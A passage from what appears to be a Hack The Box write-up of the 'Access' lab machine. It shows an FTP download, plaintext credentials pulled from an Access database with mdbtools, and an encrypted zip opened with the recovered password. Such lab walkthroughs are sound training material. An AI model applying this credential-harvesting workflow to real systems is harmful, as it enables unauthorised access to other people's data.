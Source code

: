 ```
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
10870 bytes received in 0.05 secs (200.3631 kB/s)
```

### Finding a password in the Access database

We can use mdbtools to view the Access database file:

```
root@darkisland:~/hackthebox/Machines/Access# mdb-tables -1 backup.mdb | grep -i auth
auth_group_permissions
auth_message
auth_permission
auth_user
auth_user_groups
auth_user_user_permissions
auth_group
AUTHDEVICE
```

We can issue SQL queries with the `mdb-sql` tool and look for credentials in the `auth_user` table:

```
root@darkisland:~/hackthebox/Machines/Access# mdb-sql -p backup.mdb 
1 => select * from auth_user
2 => go

id	username	password	Status	last_login	RoleID	Remark
25	admin	admin	1	08/23/18 21:11:47	26	
27	engineer	access4u@security	1	08/23/18 21:13:36	26	
28	backup_admin	admin	1	08/23/18 21:14:02	26	
3 Rows retrieved
```

Found the following credentials:
 - `engineer` / `access4u@security`

### Finding credentials in PST file

Unzipping the encrypted zip file with password `access4u@security`:

```
root@darkisland:~/hackthebox/Machines/Access# 7z e access.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i7-2600K CPU @ 3.40GHz (206A7),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: access.zip
--
Path = access.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):
Everything is Ok         

Size:       271360
```